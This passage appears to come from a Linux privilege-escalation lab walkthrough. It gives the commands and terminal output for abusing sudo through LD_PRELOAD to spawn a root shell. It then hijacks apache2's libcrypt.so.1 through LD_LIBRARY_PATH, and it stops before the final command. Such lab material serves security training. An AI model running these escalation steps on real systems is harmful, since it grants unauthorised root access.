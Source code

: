 Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

```

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here

user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so iftop
root@debian:/home/user#

```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

```
ldd /usr/sbin/apache2

user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffd85ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f8eed7ae000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f8eed58a000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f8eed350000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f8eed134000)
        libc.so.6 => /lib/libc.so.6 (0x00007f8eecdc8000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f8eecbc3000)
        librt.so.1 => /lib/librt.so.1 (0x00007f8eec9bb000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f8eec784000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f8eec57f000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f8eec357000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f8eedc6b000)

```


Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

```

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
